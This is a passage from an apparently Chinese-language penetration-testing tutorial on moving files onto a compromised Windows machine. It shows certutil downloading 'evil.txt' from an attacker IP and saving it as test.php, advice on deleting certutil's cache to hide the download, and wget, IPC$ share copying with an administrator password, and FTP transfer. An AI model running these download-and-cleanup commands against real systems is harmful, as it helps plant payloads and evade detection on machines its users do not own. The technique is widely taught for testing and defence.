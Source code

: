 输入以上命令，成功下载文件。

![](http://img-upaiyun-own.test.upcdn.net/20200413-2.png)



**3、certutil**

用于备份证书服务，支持xp-win10都支持。由于certutil下载文件都会留下缓存，所以一般都建议下载完文件后对缓存进行删除。

注：缓存目录为："%USERPROFILE%\AppData\LocalLow\Microsoft\CryptnetUrlCache\Content"

~~~powershell
#下载文件
certutil -urlcache -split -f http://192.168.28.128/imag/evil.txt test.php
#删除缓存
certutil -urlcache -split -f http://192.168.28.128/imag/evil.txt delete
~~~

![](http://img-upaiyun-own.test.upcdn.net/20200413-3.png)

**4、wget**

Windows环境下，可上传免安装的可执行程序wget.exe到目标机器，使用wget下载文件。

wget.exe下载：<https://eternallybored.org/misc/wget/>

```powershell
wget -O "evil.txt" http://192.168.28.128/imag/evil.txt
```

![](http://img-upaiyun-own.test.upcdn.net/20200413-4.png)



**5、ipc$文件共享**

IPC$(Internet Process Connection)是共享"命名管道"的资源，它是为了让进程间通信而开放的命名管道，通过提供可信任的用户名和口令，连接双方可以建立安全的通道并以此通道进行加密数据的交换，从而实现对远程计算机的访问。

~~~powershell
#建立远程IPC连接
net use \\192.168.28.128\ipc$ /user:administrator "abc123!"
#复制远程文件到本地主机
copy \\192.168.28.128\c$\2.txt D:\test
~~~

![](http://img-upaiyun-own.test.upcdn.net/20200413-5.png)



**6、FTP **

一般情况下攻击者使用FTP上传文件需要很多交互的步骤，下面这个 bash脚本，考虑到了交互的情况，可以直接执行并不会产生交互动作。

```powershell
ftp 127.0.0.1
username
password
get file
exit
```
